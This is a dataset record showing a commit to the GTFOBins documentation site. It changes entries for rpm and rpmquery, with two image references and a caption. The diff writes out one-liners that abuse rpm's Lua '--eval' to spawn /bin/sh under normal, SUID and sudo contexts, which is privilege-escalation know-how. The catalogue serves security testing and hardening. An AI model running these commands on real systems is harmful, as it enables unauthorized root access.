

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/rpmquery.md, in a window 1280 px wide. Shown: the top 845 px of the page. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Fix rpm[query] SUID

```diff
--- a/_gtfobins/rpm.md
+++ b/_gtfobins/rpm.md
@@ -2,8 +2,8 @@
 functions:
   shell:
     - code: rpm --eval '%{lua:os.execute("/bin/sh")}'
-  suid:
-    - code: ./rpm --eval '%{lua:os.execute("/bin/sh", "-p")}'
+  limited-suid:
+    - code: ./rpm --eval '%{lua:os.execute("/bin/sh")}'
   sudo:
     - code: sudo rpm --eval '%{lua:os.execute("/bin/sh")}'
     - description: |
--- a/_gtfobins/rpmquery.md
+++ b/_gtfobins/rpmquery.md
@@ -2,8 +2,8 @@
 functions:
   shell:
     - code: rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
-  suid:
-    - code: ./rpmquery --eval '%{lua:posix.exec("/bin/sh", "-p")}'
+  limited-suid:
+    - code: ./rpmquery --eval '%{lua:os.execute("/bin/sh")}'
   sudo:
     - code: sudo rpmquery --eval '%{lua:posix.exec("/bin/sh")}'
 ---
```
